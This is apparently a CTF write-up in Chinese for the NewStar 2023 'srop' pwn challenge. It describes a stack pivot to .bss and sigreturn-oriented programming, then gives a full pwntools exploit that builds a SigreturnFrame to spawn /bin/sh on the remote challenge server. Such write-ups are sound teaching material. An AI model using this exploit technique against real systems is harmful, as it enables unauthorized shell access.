 ```yaml
---
title: newstar2023 week3 - srop
date: 2023/10/13 12:00:00
updated: 2024/7/25 12:34:56
tags:
    - srop
excerpt: 利用srop技术通过栈迁移和sigreturn控制程序执行，成功实现execve("/bin/sh")。
---
```


## 文件分析

NX on, PIE off, Canary off, RELRO full  
ghidra分析为64位程序

## 解题思路

思路和上一题类似，先进行栈迁移，方便控制地址，然后srop

这题没有syscall，只有syscall函数，所以要注意rsp+8要可用；并且rdi是rax等

srop可以用pwntools里的工具快速生成，主要是要多次利用sigreturn改变rip，
从而控制程序走向，具体的流程可以在ctf-wiki中学习

## EXPLOIT

```python
from pwn import *
sh = remote('node4.buuoj.cn', 26073)
elf = ELF('srop')

syscall = elf.plt['syscall'] # here syscall is a libc function
main = elf.symbols['main']
popRdiAddr = 0x401203
retAddr = 0x401144
bssHigh = 0x404800

# payload 1, stack pivot to bss and read again
sh.send(b'0'*0x30 + p64(bssHigh) + p64(0x401171) + b'0'*(0x300-0x40))
sh.recv(0x30) # skip all write content

context.arch = 'amd64'
shellFrame = SigreturnFrame()
shellFrame.rdi = constants.SYS_execve
shellFrame.rsi = bssHigh - 0x30 # /bin/sh addr
shellFrame.rdx = 0
shellFrame.rcx = 0
shellFrame.rsp = bssHigh
shellFrame.rip = syscall

# payload 2, write /bin/sh to bss and invoke sigreturn to do execve
sh.sendline(b'/bin/sh\0' + b'0'*0x30 + p64(popRdiAddr) + p64(15) + p64(syscall) + bytes(shellFrame))
sh.interactive()
```

Done.
